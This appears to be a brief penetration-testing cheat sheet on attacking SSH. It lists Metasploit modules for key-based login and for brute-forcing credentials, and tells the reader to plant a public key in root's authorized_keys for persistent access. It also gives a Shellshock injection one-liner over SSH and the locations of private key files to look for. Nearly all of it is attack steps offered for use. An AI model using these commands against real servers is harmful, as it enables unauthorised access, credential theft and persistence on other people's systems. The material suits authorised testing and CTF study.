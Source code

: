 ## If ssh private key of victim is known

```
use ssh_login_pubkey module to get shell
msf > use auxiliary/scanner/ssh/ssh_login_pubkey
```

## Attempt to obtain a list of users and their password/hashes from other means

Users and their passwords can be obtained from misconfigured webservers, shared file systems, etc.

## Add your public ssh key to remote server

```
copy your public key to /root/.ssh/authorized_keys on remote server
```

## Brute force ssh credentials

```
use auxiliary/scanner/ssh/ssh_login
```

## Shell Shock exploit

```
ssh -i noob noob@ip '() {:;}; /bin/bash'
```

## SSH Key files

```
/home/user/.ssh/authorized_keys
/home/usr/.ssh/id_rsa
```